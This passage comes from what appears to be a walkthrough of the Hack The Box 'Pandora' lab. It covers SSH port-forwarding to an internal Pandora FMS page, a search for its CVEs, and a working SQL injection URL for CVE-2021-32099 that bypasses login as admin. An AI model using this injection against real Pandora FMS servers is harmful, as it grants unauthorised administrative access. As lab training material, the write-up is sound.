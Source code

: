 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%205.png)

We found a internal web page running on localhost in port 80.

```bash
cat /etc/apache2/sites-enabled/pandora.conf
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%206.png)

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%207.png)

### Enum Port 80

We tunnel the target's port 80 to kali's port 9090.

```bash
ssh -N -L 9090:localhost:80 daniel@10.10.11.136
```

Thus, we have access to the target's internal web page. There is a login area and a web app, `v7.0NG.742_FIX_PERL2020`, is running, which we can see in the bottom corner.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%208.png)

Searching on google we discovered an exploit based on CVE-2020-5844, but It’s a exploit that needs authentication. Doesn't work for us at the moment

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%209.png)

This site shows some CVE for web app

[https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2010.png)

### CVE-2021-32099

> **Refer:** [https://www.cvedetails.com/cve/CVE-2021-32099/](https://www.cvedetails.com/cve/CVE-2021-32099/)
> 
> 
> ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2011.png)
> 
{: .prompt-info }

This is the commant that allows bypass login as admin.

[https://github.com/akr3ch/CVE-2021-32099](https://github.com/akr3ch/CVE-2021-32099)

```bash
http://localhost:9090/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```
